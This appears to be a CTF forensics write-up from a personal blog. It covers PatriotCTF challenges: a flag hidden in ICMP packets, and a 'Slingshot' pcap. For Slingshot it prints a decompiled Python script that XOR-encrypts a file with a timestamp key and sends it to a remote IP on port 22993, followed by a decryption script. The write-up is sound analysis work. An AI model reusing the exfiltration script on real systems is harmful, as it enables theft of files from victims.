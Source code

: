 ```yaml
---
layout: post
title:  Patriot CTFs
tags: [Forensics]
date:   2024-08-12 00:00:00
excerpt: "Patriot CTFs"
feature: https://raw.githubusercontent.com/raviyelna/raviyelna.github.io/master/assets/img/background.jpg
categories: CTFs
---
```

# PatriotCTFs
## Solved by Raviel 
### Forensics
#### SimpleExfiltration

![]({{site.url}}/Writeup_images/PCTF/Simple Exfiltration/SimpleExfiltration.png)

The Challenge say something about Exfiltration so I will be looking for the most suspicious conversation
as you can see here the total of bytes tranfered betweetn ip.addr==192.168.237.132 && ip.addr==192.168.237.1 is kinda large, so let filter them out first
![]({{site.url}}/Writeup_images/PCTF/Simple Exfiltration/image.png)
after checking out the whole conversation between these two I found nothing suspicious with HTTP, TCP but I knowticed that there a lot of ping between them so I filter them out
And guess what They hid the flag inside these packet.
![]({{site.url}}/Writeup_images/PCTF/Simple Exfiltration/image copy.png)
Look through all these IMCP packet you will get the flag
pctf{time_to_live_exfiltration}
---
#### Slingshot
![]({{site.url}}/Writeup_images/PCTF/Slingshot/Slingshot.png)

The challenge gave us a pcapng file open it up immediately check the export object, you can see there a pyc file name download, FYI PYC is an compiled Python Script so you have to find some decompiler such [this](https://github.com/zrax/pycdc)

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image1.png)

(do it by yourself, I'm to lazy to do it again so here the source code of that Python that I reconstructed)
```py
import sys
import socket
import time
import math

# Create a socket object
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Command-line arguments
file = sys.argv[1]  # file path
ip = sys.argv[2]    # IP address
port = 22993        # fixed port

# Open the file in binary mode and read its contents
with open(file, 'rb') as r:
    data_bytes = r.read()

# Generate a key from the current time
current_time = math.floor(time.time())
key_bytes = str(current_time).encode('utf-8')

# Adjust key length to match the data length
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# XOR encryption
encrypt_bytes = bytes(a ^ b for a, b in zip(key_bytes, data_bytes))

# Connect to the server and send the encrypted data
s.connect((ip, port))
s.send(encrypt_bytes)

# Close the socket
s.close()
```
So you can see, its encrypt a file with the current stamptime then send it through port 22993, okay so what do we need to do now?

As we far we have known that it encrypted a file then send through port 22993, we can know filter the port 22993 to get the file back: 

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image2.png)

This look like a file that got sent and we also have the timestamp from wireshark **You should check the author or CTFs event tiemezone before decrypting the file because I myself have been using my timezone until one of my teammate Quanda found the correct timestamp of it**

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image3.png)

with that I used this script and got the Flag from an image

```py
import sys
import socket
import time
import math
import binascii

timestamp = 1726595769 

# Read the encrypted data from enc.txt
with open('enc.txt', 'r') as file:
    encrypted_hex_string = file.read().strip()

# Remove spaces/newlines and decode from hex
encrypted_data = binascii.unhexlify(encrypted_hex_string.replace('\n', ''))


key_bytes = str(timestamp).encode('utf-8')


init_key_len = len(key_bytes)
encrypted_data_len = len(encrypted_data)
temp1 = encrypted_data_len // init_key_len
temp2 = encrypted_data_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# XOR decryption
data_bytes = bytes(a ^ b for a, b in zip(key_bytes, encrypted_data))


with open('decrypted_file.bin', 'wb') as w:
    w.write(data_bytes)
```

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image4.png)

---
#### Secret Note
![]({{site.url}}/Writeup_images/PCTF/Secret_Note/Secret_Note.png)